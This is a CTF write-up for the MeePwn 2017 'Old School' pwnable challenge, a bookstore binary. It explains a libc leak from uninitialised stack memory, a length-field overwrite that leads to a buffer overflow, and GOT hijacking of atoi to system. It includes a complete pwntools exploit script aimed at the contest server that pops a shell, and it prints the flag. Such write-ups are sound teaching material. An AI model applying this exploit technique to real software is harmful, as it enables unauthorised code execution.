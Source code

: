 ```yaml
---
title: MeePwn CTF 2017 -- Old School
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
tags:
- CTF
- Python
- Pwnable
- MeePwn
- BOF
categories:
- write-ups
date: '2017-07-16 09:56:00 +0000'
---
```


**Category:** Pwnable

64 bit ELF, Partial RELRO, NX enabled, No PIE, has canary.  
  
<!-- more -->  

```
-------- BookStore --------
1.       Add Book.
2.       Edit Book.
3.       Delete Book.
4.       Show Books.
5.       Exit.
```

As we can see we can add, edit, delete or show a book. Books are stored in a pointer array `books`, each pointer point to a `book` data structure:  

```c
struct book{
    char book_name[32];
    char author[32];
    int desc_len;
    char desc[256];
}
```

The `books` array and each `book` pointer are all placed on the stack memory.  

The program did not initialize the `book` variable before setting its data. Since there's a libc address ( `<atoi + 0x10>` ) in it, we can leak the libc address by entering 4 characters in the description:  
```
Choice:4
------------ 1 ------------
Name: 11111111
Author: 11111111
Description: AAAA�N���
-------- BookStore --------
1.       Add Book.
2.       Edit Book.
3.       Delete Book.
4.       Show Books.
5.       Exit.
```

After done some fuzzing, I also found that if we input 32 characters in `book_name` and `author` ( no newline ) , the `desc_len` will be overwritten with our input, and become a large integer. Since when we edit the book description, the length to read is depend on the `desc_len` data, this make us able to overflow the `book->description` buffer and overwrite the pointers in the `books` array !  

So here's how I exploit the service:
1. First leak the libc address
2. Overwrite the `desc_len` data
3. Overflow the `books[0]->desc` buffer and overwrite `books[0]`, let it point to the GOT section
4. Edit `books[0]` and do the GOT hijacking ( hijack atoi to system )


The exploit at the local side worked, but for some unknown reason, the service at the remote side has a different behavior: during the last step of the exploitation, it won't let us input the `author` data, thus failing our exploit. Although we can still pwn it by not entering the author's name, it still took me a while to debug the whole process.  

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "139.59.244.42"
PORT = 31340
ELF_PATH = "./oldschool_noalarm"
LIBC_PATH = "./libc6_2.23-0ubuntu7_amd64.so"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = ELF(LIBC_PATH)

def add_book(book, author, dlen, desc):
    r.sendlineafter("Choice:", "1")
    r.sendafter("name:", book)
    r.sendafter("uthor:", author)
    r.sendlineafter("tion:", str(dlen))
    r.sendafter("tion:", desc)

def edit_book(idx, book, author, desc):
    r.sendlineafter("Choice:", "2")
    r.sendlineafter("?", str(idx))
    r.sendafter("name:", book)
    r.sendafter("uthor:", author)
    r.sendafter("tion:", desc)

def del_book(idx):
    r.sendlineafter("Choice:", "3")
    r.sendlineafter("?", str(idx))

def show_book():
    r.sendlineafter("Choice:", "4")


if __name__ == "__main__":

    r = remote(HOST, PORT)
   
    book, author = "1"*8+"\n", "a"*8+"\n"  
    add_book(book, author, 100, "AAAA\n")
    show_book()
    
    # leak libc
    r.recvuntil("AAAA")
    libc.address = u64(r.recv(6).ljust(8, "\x00")) - libc.symbols['atoi'] - 0x10
    log.success("libc_base: "+hex(libc.address))

    del_book(1)
    book, author = "1"*32, "a"*32  
    # make book[0]->size = very big
    # later when we edit book[0]->desc, it will overwrite the pointer of book[0]
    add_book(book, author, 100, "AAAA\n")
   
    # edit book[1]->desc, overwrite book[0]
    # change book[0]->name to got section
    # later we can edit book[0] & do GOT hijacking
    payload = "i"*503 + "\x00" + p32(1) + p64(0x602028) + "\n"
    edit_book(1, "1\n", "1\n", payload)

    # overwrite atoi to system
    payload = "i"*4 + p64(libc.symbols['system']) + "\n"
    book, author, desc = p64(0x400706)[:6:] , p64(0x4006f6)[:6:], payload
    r.sendlineafter("Choice:", "2")
    r.sendlineafter("?", "1")
    r.sendafter("name:", book)
    # don't know why author won't read input.....
    #r.sendafter("uthor:", author)
    r.sendafter("tion:", desc)
 
    r.sendline("sh")
    r.interactive()

```

flag: `MeePwnCTF{0ld_sch00ld_C4n4ry_1s_0n_th3_st4ck}`